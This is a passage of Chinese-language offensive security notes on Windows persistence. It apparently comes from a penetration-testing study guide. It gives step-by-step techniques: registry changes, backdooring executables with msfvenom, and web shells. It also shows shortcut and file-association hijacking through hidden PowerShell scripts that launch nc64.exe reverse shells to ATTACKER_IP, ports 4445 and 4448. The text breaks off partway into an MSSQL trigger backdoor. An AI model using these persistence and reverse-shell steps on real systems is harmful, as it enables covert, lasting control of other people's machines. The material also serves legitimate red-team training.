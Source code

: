 ##### 6. 注册表其他修改 (Other Registry Modifications)

- **原理**: 利用注册表的其他键值实现持久化或辅助持久化。
- **示例**:
    - **RDP 端口修改**: 修改 RDP 服务的监听端口（默认 3389）。
        - 键: `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`
        - 值: `PortNumber` (DWORD)。
    - **AppInit_DLLs**: (位于 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`) 加载指定的 DLL 到几乎所有用户模式进程。**慎用，易被检测，且可能导致系统不稳定。**
    - **LocalAccountTokenFilterPolicy**: (已在用户账户部分提及) `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` 下的 `LocalAccountTokenFilterPolicy` (DWORD) 设置为 `1`，用于使远程连接的本地管理员账户获得完整权限。

##### 7. 工具篡改/后门化与文件关联劫持 (Tool Tampering/Backdooring & File Association Hijacking)

- **A. 后门化可执行文件**:
    - **原理**: 替换系统上合法的可执行文件 (如 `PuTTY.exe`) 或用户常用工具为包含后门的版本。
    - **方法**: 使用 `msfvenom -x <original_exe> -k -p <payload_options> -f exe -o <backdoored_exe.exe>` 将 payload 注入现有可执行文件，尝试保持原功能。
    - **挑战**: 确保后门化工具功能正常，绕过文件完整性检查。
- **B. 快捷方式文件劫持**:
    - **原理**: 修改现有快捷方式 (.lnk) 的目标，使其指向一个恶意脚本，该脚本首先执行 payload，然后再启动原始程序。
    - **步骤**:
        1. 创建恶意脚本 (如 PowerShell 脚本 `backdoor.ps1`):
            
            PowerShell
            
            ```
            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445" # 执行 payload
            C:\Windows\System32\calc.exe # 执行原始程序
            ```
            
        2. 修改快捷方式的目标为: `powershell.exe -WindowStyle hidden C:\path\to\backdoor.ps1`。
        3. 确保快捷方式图标与原始程序一致。
- **C. 文件关联劫持**:
    - **原理**: 修改注册表中特定文件扩展名（如 `.txt`）的默认打开方式，使其在用户打开该类型文件时先执行恶意代码，再用原程序打开文件。
    - **步骤**:
        1. 查找文件类型的 ProgID: 如 `.txt` 对应 `HKLM\Software\Classes\.txt` 默认值。
        2. 查找 ProgID 对应的打开命令: 如 `txtfile` 对应 `HKLM\Software\Classes\txtfile\shell\open\command` 默认值 (通常是 `NOTEPAD.EXE %1`)。
        3. 创建恶意脚本 (如 `backdoor2.ps1`):
            
            PowerShell
            
            ```
            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
            C:\Windows\system32\NOTEPAD.EXE $args[0] # $args[0] 对应 %1
            ```
            
        4. 修改注册表中 `shell\open\command` 的默认值为: `powershell.exe -WindowStyle hidden C:\path\to\backdoor2.ps1 %1`。

##### 8. 特定应用后门 (Application-Specific Backdoors)

- **A. Web Shell**:
    - **原理**: 在 Web 服务器的 Web 根目录 (如 IIS 的 `C:\inetpub\wwwroot`) 上传一个服务端脚本 (如 ASPX, PHP, JSP shell)，通过浏览器访问该脚本即可执行命令。
    - **权限**: 通常以 Web 应用程池的账户权限运行 (如 `iis apppool\defaultapppool`)。该账户可能具有 `SeImpersonatePrivilege`，可用于提权。
    - **注意**: 需注意文件权限，确保 Web 服务器有权访问和执行该 shell 文件 (可能需要 `icacls shell.aspx /grant Everyone:F`)。
- **B. 数据库触发器后门 (以 MSSQL 为例)**:
    - **原理**: 在数据库中创建触发器，当特定数据库事件（如表数据插入、用户登录）发生时，自动执行恶意代码 (如通过 `xp_cmdshell` 执行系统命令)。
    - **步骤**:
        1. **启用 xp_cmdshell** (需 `sysadmin` 权限):
            